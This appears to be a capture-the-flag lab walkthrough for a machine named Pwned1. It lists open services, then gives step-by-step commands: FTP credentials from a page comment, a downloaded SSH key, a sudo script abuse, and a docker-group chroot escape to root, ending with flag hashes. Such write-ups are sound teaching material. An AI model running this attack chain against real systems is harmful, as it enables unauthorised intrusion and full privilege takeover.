

# Pwned1

**IP Address:** 192.168.238.95

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 21 | ftp | vsftpd 3.0.3 |
| 22 | ssh | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 80 | http | Apache httpd 2.4.38 ((Debian)) |


## Exploitation
### Exploit Details (Found Credentials)
* **Name** - 
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. A directory was found on the webserver that contained a list of directories. http://192.168.238.95/hidden_text/secret.dic checking all of these directories leads us to another page which contains ftp credentials in the comments section. 

Commands
```
curl http://192.168.238.95/pwned.vuln/ | grep '//'
```


2. We can then use those credentials to download a private key and use that to login via ssh. 

Commands
```
ftp $ip
ftpuser
B0ss_Pr!ncesS
cd share
get id_rsa
get note.txt
quit
cat note.txt
chmod 600 id_rsa
ssh ariana@$ip -i id_rsa
whoami
cat local.txt
```



## Privilege Escalation #1 (selena)
### Exploit Details (SUDO)
* **Name** - SUDO
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. The user ariana has permissions to run the /home/messenger.sh script as the user selena. We can leverage this to gain a shell as selena. 

Commands
```
sudo -l
sudo -u selena /home/messenger.sh
selena
/bin/bash
whoami
```


## Privilege Escalation #2 (root)
### Exploit Details (Docker Group)
* **Name** - Docker Group
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

Commands
```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it privesc chroot /host /bin/bash
whoami
cat /root/proof.txt
```


## Loot
```
local.txt
9ad8823db66b7499adfd7847316f1694
proof.txt
f16c7c714eea83c64e734fdc3860f4a8
```